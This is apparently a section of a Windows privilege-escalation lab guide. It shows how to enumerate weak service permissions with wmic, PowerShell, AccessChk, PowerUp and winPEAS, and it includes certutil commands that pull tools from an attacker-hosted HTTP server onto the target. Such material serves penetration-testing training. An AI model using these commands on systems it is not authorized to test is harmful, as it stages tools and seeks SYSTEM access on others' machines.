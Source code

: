 ```yaml
---
legal-banner: true
---
```


### **Enumerating services manually**

1.  Use `wmic` to display all non-standard services running on the system:  
    `wmic service get name,displayname,pathname,startmode | findstr /i /v "C:\Windows\\"`

    ![](../../../../img/Windows-Environment/47.png)

2.  The same can be done in PowerShell with `Get-WmiObject`:  
    `Get-WmiObject -class Win32_Service -Property Name,DisplayName,PathName,StartMode | Where {$_.PathName -notlike "C:\Windows\*"} | Select PathName,DisplayName,Name`

    ![](../../../../img/Windows-Environment/48.png)

### **Enumerating services with AccessChk**

1.  If you don’t have the Sysinternals Suite, download it from the official [Microsoft site](https://learn.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite).  

    ![](../../../../img/Windows-Environment/49.png)

    **Note:** Confirm that the target is 64-bit:  
    `systeminfo | findstr /B /C:"System Type"`
    
2.  Host the binary with Python and transfer it to the target with `certutil`:  
    `certutil -urlcache -f http://[IP-ADDRESS]:8000/accesschk64.exe accesschk64.exe`

    ![](../../../../img/Windows-Environment/50.png)
    
3.  Use [AccessChk](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk) to find services writable by the current user:  
    `.\accesschk64.exe "%USERNAME%" -wuvc * -accepteula`

    ![](../../../../img/Windows-Environment/51.png)

    **Note:** Here, the `daclsvc` service has `SERVICE_CHANGE_CONFIG` permissions, meaning any user can modify it.  
    The other permission of interest for escalation is `SERVICE_ALL_ACCESS`.
    
4.  PowerUp can also perform service misconfiguration checks in one command:  
    `powershell -NoProfile -ExecutionPolicy Bypass -Command "& {.\PowerUp.ps1; Invoke-AllChecks}"`

    ![](../../../../img/Windows-Environment/52.png)

### **Enumerating service permissions with winPEAS**

1.  Since the target runs a 64-bit OS, host winPEASx64 with Python:  
    `python3 -m http.server 8000`

    ![](../../../../img/Windows-Environment/53.png)

    **Note:** Confirm architecture with:  
    `systeminfo | findstr /B /C:"System Type"`
    
2.  Transfer winPEAS to the target:  
    `certutil -urlcache -f http://[IP-ADDRESS]:8000/winPEASx64.exe winPEASx64.exe`

    ![](../../../../img/Windows-Environment/54.png)
    
3.  Run winPEAS to search for weak service permissions:  
    `.\winPEASx64.exe`

    ![](../../../../img/Windows-Environment/55.png)

    **Note:** The “Services Information” section provides a detailed list of services, configs, and security issues.
    
4.  Scrolling further down, the “Modifiable Services” sub-section highlights services the current user can modify.

    ![](../../../../img/Windows-Environment/56.png)

### **Gathering service information**

1.  The most important service attributes are the start mode, binary path, and `StartName`. Example:  
    `sc qc daclsvc`

    ![](../../../../img/Windows-Environment/57.png)
    
2.  In PowerShell:  
    `Get-WmiObject win32_service | ?{$_.Name -like 'daclsvc'} | select Name, DisplayName, StartMode, State, PathName, StartName`

    ![](../../../../img/Windows-Environment/58.png)

    **Note:** Here, `StartName` is `LocalSystem`, meaning the service runs with SYSTEM privileges.  
    If it were another account, we would need to adjust the configuration so it executes as SYSTEM.
    
3.  Use [SetACL](https://helgeklein.com/download/) to enumerate detailed permissions on the service:  
    `.\SetACL.exe -on "daclsvc" -ot srv -actn list`

    ![](../../../../img/Windows-Environment/59.png)